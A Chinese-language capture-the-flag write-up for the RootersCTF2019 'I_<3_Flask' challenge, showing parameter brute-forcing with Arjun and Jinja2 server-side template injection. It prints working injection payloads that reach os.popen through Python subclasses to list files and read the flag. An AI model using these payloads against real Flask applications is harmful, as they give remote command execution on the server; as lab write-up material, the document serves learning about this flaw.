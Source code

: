 ```yaml
---
title: '[RootersCTF2019]I_<3_Flask'
date: 2024-06-13 21:02:35
tags: ssti
categories: 刷题笔记
---
```


## [RootersCTF2019]I_<3_Flask

打开页面，我们寻找flask路由

扫了一下页面也没发现源码泄露，f12里也没有，我们考虑参数爆破

我们使用工具[arjun](https://github.com/s0md3v/Arjun)进行参数爆破

```
python3 arjun -u http://270ecd40-84d3-4667-bee9-04c7c2aeb5c2.node3.buuoj.cn/ -c 100 -d 5
```

速度慢到离谱，我们最后爆出来个参数name

<!--more-->

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210415084752420.png)

我们对name进行测试

```
?name={{7*'7'}}
```

发现为jinjia2模板注入

![image-20240613211738157](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406132117326.png)

我们先查目录

```
?name={% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('ls').read()") }}{% endif %}{% endfor %}
```

![image-20240613212246181](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406132122381.png)

我们发现flag.txt，打开它

```
?name={% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('cat flag.txt').read()") }}{% endif %}{% endfor %}
```

